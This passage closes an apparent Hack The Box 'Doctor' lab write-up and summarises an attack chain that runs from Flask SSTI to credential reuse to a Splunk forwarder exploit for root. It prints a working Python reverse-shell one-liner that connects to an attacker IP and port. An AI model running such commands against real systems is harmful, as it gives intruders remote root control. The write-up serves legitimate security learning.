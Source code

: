 I used [this script](https://github.com/cnotin/SplunkWhisperer2/blob/master/PySplunkWhisperer2/PySplunkWhisperer2_local.py) (mentioned in that blog post) to create a malicious application that ran the below shell script, which would give me a reverse shell as `root`. Please note that the script was written for Python 2, and I had to adapt it for Python 3 as that's what was available on the box (change the `print ...` statements to `print(...)`).

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.5\",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'
```

![executing the splunk exploit screenshot](/img/htb/doctor/shell-splunkexp.png)

And with that, I got a root shell, ta-da!

![root shell screenshot](/img/htb/doctor/shell-roottxt.png)

## tl;dr

Flask web app has an SSTI vulnerability. Exploit the SSTI vuln for initial foothold, and escalate to `shaun` using credentials from `/var/log/apache2/backup`, which is readable because the `web` user is in the `adm` group. Escalate from `shaun` to `root` by using `shaun`'s creds to exploit the Splunk Universal Log Forwarder and pop a `root` shell.
